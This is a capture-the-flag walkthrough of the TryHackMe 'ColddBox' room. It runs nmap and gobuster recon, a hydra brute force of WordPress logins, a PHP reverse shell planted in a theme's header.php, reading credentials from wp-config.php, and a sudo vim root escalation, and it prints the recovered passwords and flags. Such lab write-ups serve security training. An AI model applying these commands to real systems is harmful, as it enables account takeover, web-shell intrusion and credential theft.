 # ColdBox

<div align="left">

<figure><img src="../.gitbook/assets/image (11) (1) (1).png" alt="" width="168"><figcaption><p><a href="https://tryhackme.com/room/colddboxeasy">https://tryhackme.com/room/colddboxeasy</a></p></figcaption></figure>

</div>

🔗 [ColdBox](https://tryhackme.com/room/colddboxeasy)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.100.105`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.100.105 coldbox.thm" >> /etc/hosts

mkdir thm/coldbox.thm
cd thm/coldbox.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 coldbox.thm
PING coldbox.thm (10.10.100.105) 56(84) bytes of data.
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=1 ttl=63 time=65.4 ms
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=2 ttl=63 time=61.1 ms
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=3 ttl=63 time=60.5 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 coldbox.thm -oG nmap/port_scan
```

```bash
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 63
4512/tcp open  unknown syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 80, 4512

Now, we need to search which services are running on open ports:

```bash
nmap -p80,4512 -n -Pn -vvv -sCV --min-rate 5000 coldbox.thm -oN nmap/open_port
```

```bash
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Task 3 - User flag?

Then we can start to see website (port 80):

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we can see that's a wordpress web site, then we can try to see page source for checking information disclosure.

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

but we don't find precious info.

Another good thing to do, is find hidden paths on website using gobuster

```
gobuster dir -u coldbox.thm -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very good, we can start to check these web dir:

/hidden/

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very good, there're precious info about usernames: C0ldd, Hugo and Philip.

We can confirm it watching error message at login in a default login path for wordpress: /wp-admin/

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally the's another good info

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we don't waste time, we can use wpscan to find user list, but we'll take it if we take results with our three users, then try to login with C0ldd/Hugo/Philip:password123 (what we've see in the hidden path).

Nothing to do, we need to use brute force attack.

Then, we save them in a file called users.txt, and run hydra with a password wordlist to take a brute force attack:

```bash
echo "C0ldd\nHugo\nPhilip" > users.txt
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt coldbox.thm -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
C0ldd:9876543210
{% endhint %}

Now we can use this credentials to log in wordpress and ssh.

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

Check user list, to see them and theirs role/permissions:

<figure><img src="../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Very good, C0ldd is administrator.

Now, we need to access at machine using web shell, find it on our kali web-shells folder or use pentester monkey website:

<figure><img src="../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

We need to edit it using our credentials (LHOST and LPORT):

<div align="left">

<figure><img src="../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

</div>

and upload it on media library page:

<figure><img src="../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

But, trying to change extension, upload doesn't work.

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Then, we can try to use wordpress themes or plugins how vector to inject our web-shell.

Starting with themes, we edit header.php page in the twentyfifteen theme using the same php web-shell:

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

Update file, run netcat listener on the same port '1234':

<div align="left">

<figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

</div>

Go to: [http://coldbox.thm/wp-content/themes/twentyfifteen/header.php](http://coldbox.thm/wp-content/themes/twentyfifteen/header.php)

<figure><img src="../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

We can upgrade this to a fully interactive shell by running:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

and retrieve credentials inside wp-config.php file.

```bash
cat /var/www/html/wp-config.php | grep "DB_USER"
#define('DB_USER', 'c0ldd');
cat /var/www/html/wp-config.php | grep "DB_PASSWORD"
#define('DB_PASSWORD', 'cybersecurity');
su c0ldd #inser psw and read flag.
```

we know credential for access how c0ldd user and read user.txt flag

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

</details>

### Task 4 - Root flag?

We can do sudo -l command to discover user's permissions.

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

We see that c0ldd user has root permissions for these commands, we can use gtfobins to find them.

[https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/) using vim sudo command below, we obtain a root permission:

```bash
sudo vim -c ':!/bin/sh'
```

<figure><img src="../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

spawn /bin/sh to use shell:

<div align="left">

<figure><img src="../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

</div>

Well done! Root flag found!

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

</details>
